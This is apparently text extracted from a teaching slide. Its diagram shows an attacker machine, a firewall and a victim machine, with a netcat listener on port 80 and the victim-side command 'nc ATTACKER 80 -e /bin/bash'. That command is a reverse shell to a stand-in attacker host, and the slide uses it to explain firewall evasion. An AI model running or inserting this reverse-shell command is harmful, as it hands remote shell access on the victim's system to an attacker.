

Attacker Machine

nc -nlvp 80
Firewall
Victim Machine

nc ATTACKER 80
–e /bin/bash